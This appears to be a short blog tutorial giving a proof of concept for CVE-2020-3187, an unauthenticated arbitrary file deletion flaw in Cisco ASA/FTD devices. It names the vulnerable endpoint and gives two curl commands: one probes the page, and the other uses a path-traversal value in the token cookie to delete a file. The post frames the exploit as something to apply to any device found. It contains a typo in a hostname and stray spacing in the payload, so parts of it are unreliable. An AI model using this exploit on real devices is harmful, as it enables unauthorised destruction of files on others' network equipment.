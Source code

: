 <a href='https://zero-eg.com/'>Click here

---
title: POC of CVE-2020-3187 - unauthenticated arbitrary file deletion in Cisco ASA/FTD
author: Elsfa7-110
categories: [Tutorial]
tags: [CVE]
pin: true
---


## If you found Cisco ASA / FTD
Well let's apply CVE-2020-3187 - Unauthenticated Arbitrary File Deletion

Vulnerable Endpoint

go to
https://host/+CSCOE+/session_password.html

  curl -k -s -i https://hotst/+CSCOE+/session_password.html

to delete logo file "/+CSCOU+/csco_logo.gif".

  curl -k -H "Cookie: token = .. / + CSCOU + / csco_logo.gif" https://host/+CSCOE+/session_password.html
